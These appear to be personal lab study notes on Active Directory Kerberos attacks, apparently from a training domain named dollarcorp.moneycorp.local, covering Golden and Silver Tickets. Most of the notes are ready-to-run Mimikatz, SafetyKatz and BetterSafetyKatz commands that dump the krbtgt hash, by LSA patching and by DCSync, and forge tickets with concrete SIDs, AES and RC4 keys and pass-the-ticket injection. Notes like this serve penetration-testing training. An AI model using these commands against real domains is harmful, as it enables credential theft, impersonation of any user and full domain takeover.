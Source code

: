 
###### Golden Ticket

- Skips the 1 e 2 steps
- its a signed and encrypted by the hash of krbtgt account which validates the TGT ticket
- the krbtgt account can be used to impersonate any user with any privileges from even a non-domain machine

Execute mimikatz (or a variant) on DC as DA to get krbtgt hash:

~~~
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
~~~

To use the DCSync feature for getting AES keys for krbtgt account.


Use the below command with DA privileges (or a user that has replication rights on the domain object):

~~~
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
~~~

Using the DCSync option needs no code execution on the target DC

**Run the below command to create a Golden ticket on any machine that has network connectivity with DC**:

~~~
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
~~~


![[Pasted image 20241121232607.png]]

![[Pasted image 20241121232614.png]]

### Silver Ticket

Using hash of the Domain Controller computer account, below command provides access to file system on the DC:

~~~
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:CIFS /rc4:e9bb4c3d1327e29093dfecab8c2676f6 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
~~~

Similar command can be used for any other service on a machine:

![[Pasted image 20241122001934.png]]


![[Pasted image 20241122001942.png]]
